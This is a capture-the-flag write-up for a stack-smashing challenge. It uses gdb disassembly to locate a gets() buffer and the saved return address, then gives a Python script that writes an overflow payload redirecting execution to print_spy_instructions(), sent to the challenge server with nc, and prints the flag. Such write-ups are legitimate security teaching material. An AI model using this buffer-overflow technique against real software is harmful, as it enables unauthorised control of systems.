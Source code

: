 # Right Address

**Points**: 75

## Solution

This is a stack smashing problem.

Open up the binary in `gdb`. Next find the address of `print_spy_instructions()`:
```gdb
(gdb) disassemble print_spy_instructions
Dump of assembler code for function print_spy_instructions:
   0x08048626 <+0>: push   %ebp
   0x08048627 <+1>: mov    %esp,%ebp
   0x08048629 <+3>: push   %ebx
...
```

The address we need is `0x08048626`.

Since we will be smashing the stack in `process_order()`, let's disassemble
it.

```gdb
Dump of assembler code for function process_order:
   0x080486a8 <+0>: push   %ebp
   0x080486a9 <+1>: mov    %esp,%ebp
   0x080486ab <+3>: push   %ebx
   0x080486ac <+4>: sub    $0x74,%esp
   0x080486af <+7>: call   0x8048560 <__x86.get_pc_thunk.bx>
   0x080486b4 <+12>:    add    $0x194c,%ebx
   0x080486ba <+18>:    movl   $0x0,-0xc(%ebp)
   0x080486c1 <+25>:    mov    0x8(%ebp),%eax
   0x080486c4 <+28>:    sub    $0x1,%eax
   0x080486c7 <+31>:    mov    0x3c(%ebx,%eax,4),%eax
   0x080486ce <+38>:    sub    $0x8,%esp
   0x080486d1 <+41>:    push   %eax
   0x080486d2 <+42>:    lea    -0x15a3(%ebx),%eax
   0x080486d8 <+48>:    push   %eax
   0x080486d9 <+49>:    call   0x8048460 <printf@plt>
   0x080486de <+54>:    add    $0x10,%esp
   0x080486e1 <+57>:    sub    $0xc,%esp
   0x080486e4 <+60>:    lea    -0x158b(%ebx),%eax
   0x080486ea <+66>:    push   %eax
   0x080486eb <+67>:    call   0x8048460 <printf@plt>
   0x080486f0 <+72>:    add    $0x10,%esp
   0x080486f3 <+75>:    sub    $0xc,%esp
   0x080486f6 <+78>:    lea    -0x70(%ebp),%eax
   0x080486f9 <+81>:    push   %eax
   0x080486fa <+82>:    call   0x8048470 <gets@plt>
   0x080486ff <+87>:    add    $0x10,%esp
   0x08048702 <+90>:    sub    $0xc,%esp
   0x08048705 <+93>:    lea    -0x1572(%ebx),%eax
   0x0804870b <+99>:    push   %eax
   0x0804870c <+100>:   call   0x80484a0 <puts@plt>
   0x08048711 <+105>:   add    $0x10,%esp
   0x08048714 <+108>:   sub    $0xc,%esp
   0x08048717 <+111>:   push   $0x5
   0x08048719 <+113>:   call   0x8048490 <sleep@plt>
   0x0804871e <+118>:   add    $0x10,%esp
   0x08048721 <+121>:   sub    $0xc,%esp
   0x08048724 <+124>:   lea    -0x1564(%ebx),%eax
   0x0804872a <+130>:   push   %eax
   0x0804872b <+131>:   call   0x80484a0 <puts@plt>
   0x08048730 <+136>:   add    $0x10,%esp
   0x08048733 <+139>:   nop
   0x08048734 <+140>:   mov    -0x4(%ebp),%ebx
   0x08048737 <+143>:   leave
   0x08048738 <+144>:   ret
End of assembler dump.
```

Our main point of interest is the call to `gets()`:
```gdb
 0x080486f6 <+78>:    lea    -0x70(%ebp),%eax
 0x080486f9 <+81>:    push   %eax
 0x080486fa <+82>:    call   0x8048470 <gets@plt>
```

Here we can see that we compute the address of `%ebp - 0x70` and store it in
`%eax`. Next we push `%eax` to the stack. In short, we are passing that
computed address to `gets()`. This means that this address is the start address
of `address[]`.

Set a breakpoint at the call to `gets()`:
```gdb
(gdb) break *0x080486fa
Breakpoint 1 at 0x80486fa
```

Run the program. When the breakpoint is reached, run `info frame`:
```gdb
(gdb) info frame
Stack level 0, frame at 0xffffc170:
 eip = 0x80486fa in process_order; saved eip = 0x8048893
 called by frame at 0xffffc2b0
 Arglist at 0xffffc168, args:
 Locals at 0xffffc168, Previous frame's sp is 0xffffc170
 Saved registers:
  ebx at 0xffffc164, ebp at 0xffffc168, eip at 0xffffc16c
```

We can see that:
- The saved `%ebp` is at `0xffffc168` on the stack
  (it happens that the current `%ebp` always points to the value of the saved
  `%ebp`), because that was the last thing pushed to the stack before the
  function was called.
- The saved `%eip` is at `0xffffc16c` on the stack

Alternatively:
- `x $ebp` shows the value in the `%ebp` register (as well as value of the
  memory that it references)
- `x $ebp+4` shows the return address (old EIP) of the current function, because it was
  the second to last thing pushed to the stack before the function was called.
- See https://www.cs.princeton.edu/courses/archive/spring11/cos217/lectures/15AssemblyFunctions.pdf

We want to overwrite `0xffffc16c`. To do this, we have to fill all the values
between the address of `address[]` and `0xffffc16c`. Then we can set the value
at `0xffffc16c` to whatever we want, namely the address of `print_spy_instructions()`.

We can put all this into a Python script:

```python
def addr_little_endian(addr, n_bytes):
    """`to_bytes(4, byteorder='little')` was buggy for some reason"""
    mask = 0xff
    ans = []
    for i in range(n_bytes):
        x = addr & mask
        for j in range(i):
            x = x >> 8

        ans.append(x.to_bytes(1, byteorder='big'))
        mask = mask << 8

    return ans


def main():
    # Answer `1` at the first prompt
    with open('access', 'w') as f:
        f.write("1\n")

    with open('access', 'ab') as f:
        ebp = 0xffffc168
        buf_addr = ebp - 0x70  # 0x080486fa
        eip = 0xffffc16c

        n_fill = eip - buf_addr

        # Overflow buffer and smash the stack
        for i in range(n_fill):
            f.write(b'\xff')

        # Set return address
        addr = 0x08048626
        for b in addr_little_endian(addr, 4):
            f.write(b)


main()
```

To use this:
```bash
python3 main.py
cat access - | nc pwn.osucyber.club 13374
# Hit enter at the first prompt
```

We can then see that the flag is:
`osuctf{1ll_r3turn_wher3_i_w4nt_2}`
